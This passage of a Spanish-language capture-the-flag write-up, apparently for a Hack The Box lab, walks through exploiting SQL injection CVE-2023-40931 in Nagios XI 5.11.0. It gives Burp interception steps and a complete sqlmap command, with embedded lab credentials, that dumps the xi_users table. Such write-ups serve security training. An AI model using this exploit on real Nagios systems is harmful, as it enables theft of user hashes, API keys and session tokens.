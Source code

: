 
Logramos acceder con éxito y enumerar la versión: 5.11.0
![image](https://github.com/user-attachments/assets/3850019d-cc2f-4412-b912-fe3467281810)



Parece que esa versión es vulnerable a SQL injection:[CVE-2023-40931](https://nvd.nist.gov/vuln/detail/CVE-2023-40931)
https://pentest-tools.com/vulnerabilities-exploits/nagios-xi-v5110-sql-injection_23763

## 💉 Explotación

Debido a un mensaje o banner hecho en ajax. Hay un post donde se menciona esta vulnerabilidad:
https://outpost24.com/blog/nagios-xi-vulnerabilities/

```
Nagios XI features “Announcement Banners”, which can optionally be acknowledged by users. The endpoint for this feature is vulnerable to a SQL Injection attack. When a user acknowledges a banner, a POST request is sent to `/nagiosxi/admin/banner_message-ajaxhelper.php` with the POST data consisting of the intended action and message ID – `action=acknowledge banner message&id=3`. The ID parameter is assumed to be trusted but comes directly from the client without sanitization. This leads to a SQL Injection where an authenticated user with low or no privileges can retrieve sensitive data, such as from the `xi_session` and `xi_users` table containing data such as emails, usernames, hashed passwords, API tokens, and backend tickets. This vulnerability does not require the existence of a valid announcement banner ID, meaning it can be exploited by an attacker at any time.
```

Activamos el interceptor de Burpsuite y refrescamos la página y cambiamos la petición a POST:

![image](https://github.com/user-attachments/assets/d1fdf13b-7887-474a-bbd1-d90ea9c5d6f4)


Nota: Asegurarse de cambiar el valor Cookie por la cookie de autenticación de su sesión.

![image](https://github.com/user-attachments/assets/c59d78aa-3f61-46fc-a6f5-9696f9ebeaff)

Enviando la petición, vemos un error SQL en la pestaña Respuesta, confirmando que podemos inyectar consultas SQL en el servicio. 


Existe un payload de sqlmap que permite automatizar esta inyección:

https://github.com/sealldeveloper/CVE-2023-40931-PoC

```bash
sqlmap -D nagiosxi -T xi_users -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=`curl -ksX POST https://nagios.monitored.htb/nagiosxi/api/v1/authenticate -d "username=svc&password=XjH7VCehowpR1xZB&valid_min=1000" | awk -F'"' '{print$12}'`" --dump --level 4 --risk 3 -p id --batch
```

```bash
Database: nagiosxi
Table: xi_users
[2 entries]
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
| user_id | email               | name                 | api_key                                                          | enabled | password                                                     | username    | created_by | last_login | api_enabled | last_edited | created_time | last_attempt | backend_ticket                                                   | last_edited_by | login_attempts | last_password_change |
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
```